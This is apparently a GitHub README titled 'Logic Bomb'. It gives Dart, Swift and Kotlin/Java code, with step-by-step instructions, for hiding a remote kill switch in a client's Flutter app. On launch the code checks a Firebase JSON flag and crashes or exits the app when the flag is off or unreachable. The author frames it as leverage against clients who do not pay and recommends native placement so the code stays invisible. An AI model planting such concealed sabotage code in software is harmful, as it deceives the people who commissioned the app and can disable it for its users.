

# Logic Bomb

## Control app crashing using Firebase or REST API ( Dart, Kotlin and Swift ).

#### Hom many times did you work hard and didn't get paid ? 

This code was created to protect myself from clients. 
A client may come to you wants to complete a project, when you upload the app on stores, he disappears and not pays for you.

### Do not abuse this code.

I am not responsible for any misuse of this code.

### Code is written in :
- #### Dart
- #### Swift
- #### Kotlin

I made it in native to make the code more invisible if he got the source code.

## Implementation Time 

you need  to implement only Dart OR Both Kotlin & Swift.

I recommend to implement Native code to make it more invisible.

## Dart
in your main file 
import 
```
import 'package:dio/dio.dart';
import 'dart:io';
```
in main file paste this function
```
void plant() async {
  try {
    final result = await Dio().get('$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json');
    final data = result.data;
    if (Platform.isAndroid && !data['android']) {
      throw Exception();
    } else if (Platform.isIOS && !data['ios']) {
      throw Exception();
    }
  } catch (_) {
    exit(0);
  }
}
```
in main function plant your bomb
```
void main() {
  plant();
  runApp(MyApp());
}
```

## Swift
ios -> Runner -> AppDelegate.swift
then put this code

 ```
import UIKit
import Flutter

@UIApplicationMain
@objc class AppDelegate: FlutterAppDelegate {
  override func application(
    _ application: UIApplication,
    didFinishLaunchingWithOptions launchOptions: [UIApplication.LaunchOptionsKey: Any]?
  ) -> Bool {
    GeneratedPluginRegistrant.register(with: self)
    plant()
    return super.application(application, didFinishLaunchingWithOptions: launchOptions)
  }

  func plant() {
          let api = "$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json"
          let url = URL(string: api)!
          do {
              let data = try Data(contentsOf: url)
              let json = try JSONSerialization.jsonObject(with: data) as! [String:Any]
              if (json["ios"] as! Int == 0) {
                   fatalError()
              }
          } catch {
              fatalError()
          }
      }

}
 ```

## Android
in android -> app -> src -> main -> AndroidManifest.xml
put Internet Permission
```
    <uses-permission android:name="android.permission.INTERNET" />
```
then go to android -> app -> src -> main -> kotlin 
beside MainActivity
create new JavaClass Named Bomb and paste this code inside
```
package $HERE_IS_YOUR_APP_PACKAGE_NAME;

import java.io.*;
import java.net.HttpURLConnection;
import java.net.URL;

public class Bomb {

    void plant() throws IOException {
        Thread thread = new Thread(new Runnable() {

            @Override
            public void run() {
                try {
                    URL url = new URL("$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json");
                    HttpURLConnection urlConnection = (HttpURLConnection) url.openConnection();
                    urlConnection.setRequestMethod("GET");
                    BufferedReader in = new BufferedReader(new InputStreamReader(urlConnection.getInputStream()));
                    StringBuffer sb = new StringBuffer();
                    String line;
                    while ((line = in.readLine()) != null) {
                        sb.append(line);
                    }
                    in.close();
                    if (sb.toString().contains("\"android\":false")) {
                        throw new RuntimeException("");
                    }
                } catch (Exception e) {
                    throw new RuntimeException("");
                }
            }
        });

        thread.start();
    }

}
```
and in MainActivity file
paste this code 
```
package $HERE_IS_YOUR_APP_PACKAGE_NAME

import io.flutter.embedding.android.FlutterActivity
import io.flutter.embedding.engine.FlutterEngine

class MainActivity: FlutterActivity() {
    override fun configureFlutterEngine(flutterEngine: FlutterEngine) {
        super.configureFlutterEngine(flutterEngine)
        Bomb().plant()
    }

}
```

## Firebase Setup :
To get your firebase project link follow these Screenshots and don't miss any step OR it won't work.
## 1

## 2

## 3

## 4

## 5

## 6

## 7

## 8


## Example : 
```
https://logic-bomb-896dd-default-rtdb.firebaseio.com/app.json
```
